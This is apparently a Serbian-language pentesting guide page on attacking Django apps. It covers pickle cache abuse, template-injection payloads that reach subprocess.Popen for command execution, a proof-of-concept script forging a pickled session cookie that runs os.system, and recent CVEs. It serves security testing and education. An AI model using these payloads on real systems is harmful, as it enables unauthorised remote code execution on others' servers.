 # Django

{{#include ../../banners/hacktricks-training.md}}

## Manipulacija kešom za RCE
Podrazumevani metod skladištenja keša u Djangou je [Python pickles](https://docs.python.org/3/library/pickle.html), što može dovesti do RCE ako se [nepouzdani ulaz de-pikluje](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **Ako napadač može dobiti pristup za pisanje u keš, može eskalirati ovu ranjivost na RCE na osnovnom serveru**.

Django keš se skladišti na jednom od četiri mesta: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [memorija](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [fajlovi](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), ili [baza podataka](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Keš koji se skladišti na Redis serveru ili u bazi podataka su najverovatniji napadni vektori (Redis injekcija i SQL injekcija), ali napadač može takođe iskoristiti keš zasnovan na fajlovima da pretvori proizvoljno pisanje u RCE. Održavaoci su ovo označili kao neproblematično. Važno je napomenuti da će folder sa keš fajlovima, ime SQL tabele i detalji Redis servera varirati u zavisnosti od implementacije.

Ovaj HackerOne izveštaj pruža odličan, ponovljiv primer eksploatacije Django keša koji se skladišti u SQLite bazi podataka: https://hackerone.com/reports/1415436

---

## Injekcija šablona na serverskoj strani (SSTI)
Django Template Language (DTL) je **Turing-kompletan**. Ako se podaci koje je dostavio korisnik renderuju kao *šablonski string* (na primer, pozivanjem `Template(user_input).render()` ili kada `|safe`/`format_html()` uklanja automatsko eskapiranje), napadač može postići pun SSTI → RCE.

### Detekcija
1. Tražite dinamičke pozive `Template()` / `Engine.from_string()` / `render_to_string()` koji uključuju *bilo koje* nefiltrirane podatke iz zahteva.
2. Pošaljite payload zasnovan na vremenu ili aritmetici:
```django
{{7*7}}
```
Ako renderovani izlaz sadrži `49`, ulaz se kompajlira od strane šablonskog engine-a.

### Primitiv do RCE
Django blokira direktan pristup `__import__`, ali je Python objekat graf dostupan:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Pronađite indeks `subprocess.Popen` (≈400–500 u zavisnosti od Python verzije) i izvršite proizvoljne komande:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
Bezbedniji univerzalni uređaj je iterirati dok `cls.__name__ == 'Popen'`.

Isti uređaj funkcioniše za **Debug Toolbar** ili **Django-CMS** funkcije renderovanja šablona koje pogrešno obrađuju korisnički unos.

---

## Pickle-Backed Session Cookie RCE
Ako je podešavanje `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` omogućeno (ili prilagođeni serializer koji deserializuje pickle), Django *dekriptuje i unpickles* kolačić sesije **pre** nego što pozove bilo koji kod prikaza. Stoga, posedovanje važećeg ključa za potpisivanje (projekat `SECRET_KEY` po defaultu) je dovoljno za trenutnu daljinsku izvršavanje koda.

### Zahtevi za Eksploataciju
* Server koristi `PickleSerializer`.
* Napadač zna / može da pogodi `settings.SECRET_KEY` (curenja putem GitHub-a, `.env`, stranica sa greškama, itd.).

### Dokaz-Koncept
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Pošaljite rezultantni kolačić, a payload se izvršava sa dozvolama WSGI radnika.

**Mere zaštite**: Držite podrazumevani `JSONSerializer`, rotirajte `SECRET_KEY` i konfigurišite `SESSION_COOKIE_HTTPONLY`.

---

## Nedavne (2023-2025) visoko uticajne Django CVE koje pentesteri treba da provere
* **CVE-2025-48432** – *Log Injection putem neizbeženog `request.path`* (ispravljeno 4. juna 2025). Omogućava napadačima da prokrijumčare nove linije/ANSI kodove u log fajlove i otrovaju analizu logova nizvodno. Nivo zakrpe ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Kritična SQL injekcija* u `QuerySet.values()/values_list()` na `JSONField` (CVSS 9.8). Kreirajte JSON ključeve da biste izašli iz navodnika i izvršili proizvoljan SQL. Ispravljeno u 4.2.15 / 5.0.8.

Uvek identifikujte tačnu verziju okvira putem `X-Frame-Options` stranice greške ili `/static/admin/css/base.css` hash-a i testirajte navedeno gde je primenljivo.

---

## Reference
* Django bezbednosno izdanje – "Django 5.2.2, 5.1.10, 4.2.22 rešava CVE-2025-48432" – 4. jun 2025.
* OP-Innovate: "Django objavljuje bezbednosne ažuriranja za rešavanje SQL injekcije CVE-2024-42005" – 11. avgust 2024.

{{#include ../../banners/hacktricks-training.md}}
